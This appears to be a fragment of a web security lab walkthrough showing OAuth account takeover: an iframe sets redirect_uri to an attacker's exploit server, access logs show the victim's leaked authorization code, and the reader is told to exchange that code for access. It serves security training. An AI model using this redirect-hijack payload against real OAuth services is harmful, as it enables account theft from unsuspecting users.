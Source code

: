 ![picture 15](/assets/images/83740441906303d23940571c2a41fcc3175dc943381ab2e0f3cb6511da639ecd.png)  

Deliver the payload to victim

```html
<iframe src="https://oauth-0a370096040dd78fc2a9109f024800c8.oauth-server.net/auth?client_id=t01m58r8e75mz8c5brko5&redirect_uri=https://exploit-0a0600a904e5d707c20911290126001b.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

If we now go and check access logs, we should find few entries including the code that got leaked.
```
10.0.4.215      2023-03-10 18:47:20 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.215      2023-03-10 18:47:21 +0000 "GET /?code=fgMsBD1PAaJJ30MKNZddEr6fKYTt2Sombr-haM1Ocss HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.215      2023-03-10 18:47:21 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

```

Now log out, log in and intercept at `oauth-callback` and exchange the `access token`.

![picture 16](/assets/images/ba11d4bf3f5b981216f908e24f01c4566b05dec8aad96fc32f928a608b8c0c9c.png)  
